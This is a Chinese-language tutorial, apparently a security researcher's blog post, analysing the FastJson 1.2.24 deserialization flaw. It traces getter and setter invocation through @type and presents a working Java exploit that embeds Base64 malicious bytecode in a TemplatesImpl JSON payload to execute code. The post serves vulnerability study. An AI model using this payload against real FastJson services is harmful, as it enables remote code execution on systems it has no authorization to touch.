





# FastJson-1.2.24 利用链分析

## 初识FastJson

FastJson 是阿里巴巴旗下的开源 json 解析库，通过解析 json 字符串，将 json 字符串反序列化转换成 JavaBean，同时也能将 JavaBean 序列化为 json 字符串。FastJson 见名知意，主打特点就是快，在初期以其性能快速的优势俘获大批用户的芳心。

FastJson 的用户群特别庞大，因此一旦爆出相关漏洞，波及范围和影响都是难以控制的，这也是 FastJson 的漏洞受到广大安全研究员关注的原因之一。时至今日，FastJson 的漏洞在被广大安全研究员提交与披露之后，已经经过多轮的安全更新。

从本文开始，接下来让我们体验那段属于 FastJson 的爱恨情仇。

## FastJson使用

既然 FasjJson 的功能是将 JavaBean 序列成 json 字符串以及将 json 字符串反序列化成 JavaBean 对象，我们就从这里开始说起。

### JavaBean序列化成Json

先在 pom 文件添加一下 FastJson 的依赖
```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
```

序列化常用到的方法是：`JSON.toJSONString()`，下面写一个简单的 Demo 作为示例：
```java
package com.fastjson.fastjson;

import com.alibaba.fastjson.JSON;

/**
 * Created by dotast on 2022/12/21 10:36
 */
public class Demo {
    public static void main(String[] args){
        User user = new User();
        user.setName("dotast");
        String userJson = JSON.toJSONString(user);
        System.out.println(userJson);
    }

}

class User {
    private String name;

    public User(){
        System.out.println("调用构造函数");
    }

    public String getName() {
        System.out.println("调用getter");
        return name;
    }

    public void setName(String name) {
        System.out.println("调用setter");
        this.name = name;
    }

}
```


运行后发现，我们的代码中并没有调用 getter，但却自动调用到了，这个特性在后面将会用到。

通过跟进`toJSONString()`方法，可以看见不同类型参数的多个重载方法，例如以下几个：

> - 序列化特性：`com.alibaba.fastjson.serializer.SerializerFeature`，可以通过设置多个特性到 `FastjsonConfig` 中全局使用，也可以在使用具体方法中指定特性。
> - 序列化过滤器：`com.alibaba.fastjson.serializer.SerializeFilter`，这是一个接口，通过配置它的子接口或者实现类就可以以扩展编程的方式实现定制序列化。
> - 序列化时的配置：`com.alibaba.fastjson.serializer.SerializeConfig` ，可以添加特点类型自定义的序列化配置。

### Json反序列成JavaBean

在 FastJson 中，可以通过`@type`参数将反序列化后的 JavaBean 转换为该参数指定的类的类型，并自动调用该类中的`getter()`和`setter()`方法。

反序列化常用到的方法是：`parse()`、`parseObject()`和`parseArray()`，下面还是通过一个 Demo 进行了解一下：

先写一个 Evil 类
```java
package com.fastjson.fastjson;

/**
 * Created by dotast on 2022/12/21 11:11
 */
public class Evil {
    String cmd;

    public String getCmd() {
        System.out.println("调用Evil类的getter");
        return cmd;
    }

    public void setCmd(String cmd) throws Exception {
        System.out.println("调用Evil类的setter");
        this.cmd = cmd;
    }

}
```

再写一个 Demo 类

```java
package com.fastjson.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

/**
 * Created by dotast on 2022/12/21 10:36
 */
public class Demo {
    public static void main(String[] args) throws Exception{
        // 序列化
        User user = new User();
        String userJson = JSON.toJSONString(user, SerializerFeature.WriteClassName);
        System.out.println(userJson);
        // 反序列化
        System.out.println("--------------------------");
        String evilJson = "{\"@type\":\"com.fastjson.fastjson.Evil\",\"name\":\"dotast\"}";
        Object user1 = JSON.parse(evilJson);
        System.out.println("parse: "+user1.getClass());
        System.out.println("--------------------------");
        Object user2 = JSON.parseObject(evilJson);
        System.out.println("parseObject: "+user2.getClass());
        System.out.println("--------------------------");
        Object user3 = JSON.parseObject(evilJson, Evil.class);
        System.out.println("parseObject: "+user3.getClass());
        System.out.println("--------------------------");
        // 反序列化调用恶意类的setter方法
        evilJson = "{\"@type\":\"com.fastjson.fastjson.Evil\",\"cmd\":\"dotast\"}";
        Object user4 = JSON.parseObject(evilJson);
        System.out.println("parseObject: "+user4.getClass());
    }
}

class User {
    private String name;

    public User(){
        System.out.println("调用use类的构造函数");
    }

    public String getName() {
        System.out.println("调用user类的getter");
        return name;
    }

    public void setName(String name) {
        System.out.println("调用user类的setter");
        this.name = name;
    }

}
```


通过输出结果可以看到：`JSON.parse()`方法会返回`@type`参数指定的`Evil`类，`JSON.parseObject()`方法会返回`fastjson.JSONObject`类。但`JSON.parseObject()`方法可以通过加入指定的类作为参数传入，达到和`JSON.parse()`方法一样返回`Evil`类的效果。

此外，使用 `JSON.parseObject(evilJson)`方法将会返回`fastjson.JSONObject`类，且`Evil`类中的所有 getter 与 setter 方法都会被调用。

### getter和setter方法的调用分析

在前面的 demo 中，在调用序列化方法`JSON.toJSONString()`方法时会自动调用`getter()`，在调用反序列化方法`JSON.parse()`和`JSON.parseObject()`时，会自动调用`getter()`和`setter()`。

先看看 FastJson 具体的处理方式，跟进`JavaBeanInfo#build()`方法


一开始，通过反射获取了类的所有属性和方法并存进数组中，接着往下走


第一个 if 判断默认构造方法为空并且不是接口和抽象类的条件，`Evil`类不满足，进入 else 判断中


继续往下走


做了几个判断，具体代码为：
```java
	if (methodName.length() >= 4 && !Modifier.isStatic(method.getModifiers()) && (method.getReturnType().equals(Void.TYPE) || method.getReturnType().equals(method.getDeclaringClass())))
```

要求方法名长度不能小于4、不能为静态方法、返回的类型为 void 或者自己本身，接着又通过`types.length == 1`要求传入的参数个数必须为一个以及方法名第四个字符要大写等等，继续往下走


继续判断方法开头必须为`set`，继续往下走


最后将满足条件的添加到`FieldInfo`中


接下来看看调用 getter 的


具体判断代码为：
```java
if (methodName.length() >= 4 && !Modifier.isStatic(method.getModifiers()) && methodName.startsWith("get") && Character.isUpperCase(methodName.charAt(3)) && method.getParameterTypes().length == 0 && (Collection.class.isAssignableFrom(method.getReturnType()) || Map.class.isAssignableFrom(method.getReturnType()) || AtomicBoolean.class == method.getReturnType() || AtomicInteger.class == method.getReturnType() || AtomicLong.class == method.getReturnType()))
```

和前面的差不多，要求方法名长度大于4、不能为静态方法，方法名要以`get`开头、同时第四个字符要大写、返回的类型要继承自这几个类之一：`Collection`、`Map`、`AtomicBoolean`、`AtomicInteger`、`AtomicLong`，最后要求传入的参数个数为0，符合条件的方法会被添加到`FieldInfo`中。

最后返回`JavaBeanInfo`对象


以 getter 为例，最后在`JavaBeanSerializer#getFieldValuesMap()`方法中进行调用


### Feature.SupportNonPublicField

该字段在 FastJson 1.2.22 版本开始引入，这也是为什么如果用到该参数的链子只影响 1.2.22 - 1.2.24 版本的原因所在。

在目标类的私有变量没有`setter()`方法时，通过`JSON.parseObject(evilJson, Evil.class, Feature.SupportNonPublicField)`可以给该变量进行赋值。

## FastJson反序列化之TemplatesImpl(1.2.22 - 1.2.24)

先看看网上的相关漏洞描述：

> 影响版本：`fastjson <= 1.2.24`
> 描述：fastjson 默认使用 `@type` 指定反序列化任意类，攻击者可以通过在 Java 常见环境中寻找能够构造恶意类的方法，通过反序列化的过程中调用的 getter/setter 方法，以及目标成员变量的注入来达到传参的目的，最终形成恶意调用链。

既然 FastJson 的漏洞的触发关键点之一在于会调用 getter 和 setter 方法，在我们前面的学习过的知识中，你第一个想到的会是谁？

在 [CommonsBeanutils利用链分析](../../03-反序列化专区/12-CommonsBeanutils/index.md) 一文中，我们就曾通过`PropertyUtils.getProperty()`方法可以调用任意`JavaBean`中的`getter()`方法的特性，调用了`TemplatesImpl#getOutputProperties()`方法完成一条 CB 利用链
```
TemplatesImpl.getOutputProperties()
    TemplatesImpl.newTransformer()
        TemplatesImpl.getTransletInstance()
            TemplatesImpl.defineTransletClasses()
            TemplatesImpl.TransletClassLoader.defineClass()
```

那么很显然在 FastJson 中我们依然可以调用该类，通过`getter()`调用`getOutputProperties()`方法，通过`setter()`方法设置`_bytecodes`、`_name`、`_tfactory`和`_outputProperties`属性

注意，这里`getOutputProperties()`是`_outputProperties`属性的`getter()`方法，因为`_`字符会被处理替换为空，这里见于`com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#smartMatch()`方法


在我们设置`_bytecodes`的值的时候还需要进行 Base64编码，因为对于`byte[]`类型的 Field，在序列化与反序列化时会进行 Base64 编码和解码的操作。

以`com.alibaba.fastjson.serializer.ObjectArrayCodec#deserialze()`方法为例


跟进`bytesValue()`方法到`com.alibaba.fastjson.parser.JSONScanner#bytesValue()`，在这里进行了 Base64 解码操作


到这里，已经可以写出 exp 了
```java
package com.fastjson.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;
import java.util.Base64;

/**
 * Created by dotast on 2022/12/21 16:28
 */
public class FastJson124 {
    public static void main(String[] args) throws Exception {
        // 加载恶意类字节码
        byte[] classBytes = getBytes();
        String classCode = Base64.getEncoder().encodeToString(classBytes);
        String targetClass = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String exp = "{\"@type\":\""+ targetClass + "\",\"_bytecodes\":[\""+ classCode + "\"],\"_name\":\"name\",\"_tfactory\":{},\"_outputProperties\":{},}";
        System.out.println(exp);
        JSON.parseObject(exp, Object.class, Feature.SupportNonPublicField);

    }

    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/test/tool/ExecEvilClass.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        int a = -1;
        while((a = inputStream.read())!=-1){
            bao.write(a);
        }
        byte[] bytes = bao.toByteArray();
        return bytes;

    }
}
```



成功执行恶意类中的弹出计算器命令。

## FastJson反序列化之BECL

待补充

## FastJson反序列化之JNDI

待补充

## 总结

这里贴一张其他师傅发的 FastJson 框架图


- 反序列方法中，`JSON.parse()`和`JSON.parseObject()`的实现效果一样，前者会在解析 json 字符串时获取`@type`参数指定的类，后者则是可以通过参数中的类进行使用。

- FastJson 在创建类的示例时，会通过反射调用符合判断条件的该类的 getter 或者 setter 方法，其中 getter 需要满足的条件为：

  1. 方法名长度需要大于4；
  2. 不能为静态方法；
  3. 方法名要以`get`开头，同时第四个字符需要大写；
  4. 传入的参数个数为 0；
  5. 返回的类型要继承自这几个类之一：`Collection`、`Map`、`AtomicBoolean`、`AtomicInteger`、`AtomicLong`。

  而 setter 需要满足的条件为：

  1. 方法名长度需要大于4；
  2. 不能为静态方法；
  3. 方法名要以`set`开头，同时第四个字符需要大写；
  4. 传入的参数个数为 1；
  5. 返回的类型为 void 或者自己本身。

- 在目标类的私有变量没有`setter()`方法时，通过`JSON.parseObject(evilJson, Evil.class, Feature.SupportNonPublicField)`可以给该变量进行赋值。

- 使用 `JSON.parseObject(evilJson)`方法将会返回`fastjson.JSONObject`类，且`Evil`类中的所有 getter 与 setter 方法都会被调用。

- FastJson 在寻找类属性的 getter 和 setter 方法时，会忽略 `_`和`-` 字符串。

- 对于`byte[]`类型的 Field，在序列化与反序列化时，FastJson 会进行 Base64 编码和解码的操作。

